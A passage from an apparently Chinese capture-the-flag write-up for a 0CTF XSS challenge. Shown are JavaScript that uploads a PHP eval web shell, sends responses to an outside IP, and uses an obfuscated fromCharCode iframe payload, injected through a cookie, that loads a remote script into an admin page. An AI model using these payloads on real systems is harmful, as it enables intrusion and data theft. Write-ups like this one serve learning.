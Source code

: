 ```js
          "\r\n" +
          "\x3c?php eval($_GET[\'test\']);?\x3e\r\n" +
          "-----------------------------32762167253918--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i);

        xhr.onload=function(e)
        {
            (new Image()).src='http://106.14.61.185:7778/index.php?'+xhr.response;
        }
        xhr.send(new Blob([aBody]));
      }
submitRequest();
```

![testlocal](http://momomoxiaoxi.com/img/post/0ctf/testlocal.png)

可以看到，其实上传是被执行了，但是因为不是同源所以阻塞了。上传给admin，admin调用的时候，就能正常执行

最后的payload

```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="utf-8">
    </head>
    <body>
     <script>
    function get()
    {
        var payload = "<iframe src='javascript:eval(String.fromCharCode(118,97,114,32,115,115,115,61,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,34,115,99,114,105,112,116,34,41,59,115,115,115,46,115,114,99,61,34,104,116,116,112,58,47,47,49,48,54,46,49,52,46,54,49,46,49,56,53,47,102,105,108,101,115,47,120,115,115,46,106,115,34,59,100,111,99,117,109,101,110,116,46,98,111,100,121,46,97,112,112,101,110,100,67,104,105,108,100,40,115,115,115,41,59))'>"+"</i"+"frame>;";//payload所在
        document.cookie="username=" + payload + " domain=.government.vip; path=/";
        document.body.appendChild(document.createElement('iframe')).src='http://admin.government.vip:8000';
        //location.href = "http://admin.government.vip:8000/";
    }
    get();
    </script>
    </body>
</html>
```

得到flag{xss_is_fun_2333333}

这里的坑：
